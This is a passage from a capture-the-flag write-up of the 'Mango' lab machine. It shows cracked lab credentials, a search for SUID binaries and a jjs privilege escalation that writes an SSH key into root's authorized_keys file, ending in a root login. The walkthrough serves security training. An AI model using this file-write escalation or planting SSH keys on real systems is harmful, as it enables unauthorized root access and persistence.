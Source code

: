The function brute\_password is similar, but operating on the password field and not username.

The program starts with creating a Terminal object and calling the command loop that waits for input. If a string is passed to getuser, it will be used as the starting string for the brute forcing of that user. A password will be fetched by getpassword for the user supplied as an argument. In this way, multiple users can be brute forced.

Running the application for users we get two, admin and mango. Running each of these reveals the passwords \(_**admin:t9KcS3&gt;!0B\#2**_ and _**mango:h3mXK8RhU~f{\]f5H**_\) and the user mango can SSH into the machine. Once on the box, we can see that in the /home directory there is the home directory of the other user admin. We can switch user using the su command and use the password we retrieved earlier for the user admin:

```bash
mango@mango:~$ su - admin
Password:
$ whoami
admin
```

As the admin user, we can run linpeas, but let us just look for any files that have the SUID bit set using the following

```bash
$ find / -perm -4000 2>/dev/null
/bin/fusermount
/bin/mount
<SNIP>
/usr/bin/passwd
/usr/bin/newgidmap
/usr/bin/run-mailcap
<SNIP>
/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
```

The interesting program here is jjs which will allows JavaScript to be run at the command line. Looking at GTFOBins, the _**jjs**_ program can be used if it has SUID to write files and so we can use it to write an SSH key to root's .ssh directory. On your own box, generate an SSH key using **ssh-keygen** \(no password\) and then enter the contents of the _**&lt; your keyname&gt;.pub**_ file you generated into the script which you can copy and then paste into the terminal as the user admin :

```bash
echo 'var FileWriter = Java.type("java.io.FileWriter");
var fw=new FileWriter("/root/.ssh/authorized_keys");
fw.write("ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDVlOa8ynMntHui31M7\
v3M4xhz3wVh9+WwDbQTOlui8a/UxWEFgbGg6Tuazr+4JJ/FPUCg9ajE3z2M4Zvfp/0L\
7l2PmaJd0mhs6t4gA4NatuBoSN3Gx3qNDG/dW4hRrAP3umbMdCtcXJewqFtLZmvzPbsV\
nqgVyjLIeerFo0NYEricSlS7X8I3NGSqOcy+jTvGyppnYet0sdtui4eKVAawuGpg0Q8tC\
SVl4nD6DuVLjgRFGZt8qRBOa9tFgqGF65z/tZmM+3lbr84Labe/181j7+abZb1GrkSUVmD\
g+T9JPTPKAAO6MpREFbsg6oSBlD3Fv5wWvuePjvTM+MudJb84iJ9emJs2k33UMjgWY+izxk\
zwRqs0jxme4VjWxI4PwGClW1+lop4ehgoAkW5YCWskD4wzsGzp37vsnMrMihkm8fT4\
BH95O8TXm6UrCPLr7AY9l207OMZ4hxLw9A97snzaXESEZy/d+tVi4f5YMoJW22YmdT\
fPsbhphl6axtxNKyi8=");
fw.close();' | jjs
```

We can now use the SSH key to get onto the box as root:

```bash
┌─[rin@parrot]─[~/boxes/Mango]
└──╼ $ssh -i key root@mango.htb
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-64-generic x86_64)
<SNIP>
Last login: Thu Sep 24 09:49:52 2020
root@mango:~#
```

